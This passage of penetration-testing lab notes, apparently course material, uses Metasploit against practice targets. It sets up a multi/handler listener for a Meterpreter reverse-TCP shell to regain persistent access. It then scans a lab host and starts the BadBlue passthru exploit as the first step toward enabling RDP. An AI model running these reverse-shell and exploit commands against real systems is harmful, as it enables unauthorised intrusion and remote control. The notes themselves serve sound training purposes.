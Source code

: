 - Regain access to the system

```bash
use multi/handler
options
# Set the options as specified for the PERSISTENCE_SERVICE Exploit
set payload windows/meterpreter/reverse_tcp
set LHOST eth1
set LPORT 4444
run
```

------

## Lab 7 - [Enabling RDP](https://www.offsec.com/metasploit-unleashed/enabling-remote-desktop/)

> 🔬 [Windows: Enabling Remote Desktop](https://attackdefense.com/challengedetails?cid=1958)
>
> - Target IP: `10.2.21.205`
> - Enable **RDP** on the target machine on port **`3389`**

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.21.205
setg RHOST 10.2.21.205
workspace -a RDP
db_nmap -sV 10.2.21.205
```

```bash
80/tcp    open  http         BadBlue httpd 2.7
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49175/tcp open  msrpc        Microsoft Windows RPC

# RDP 3389 is disabled
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```
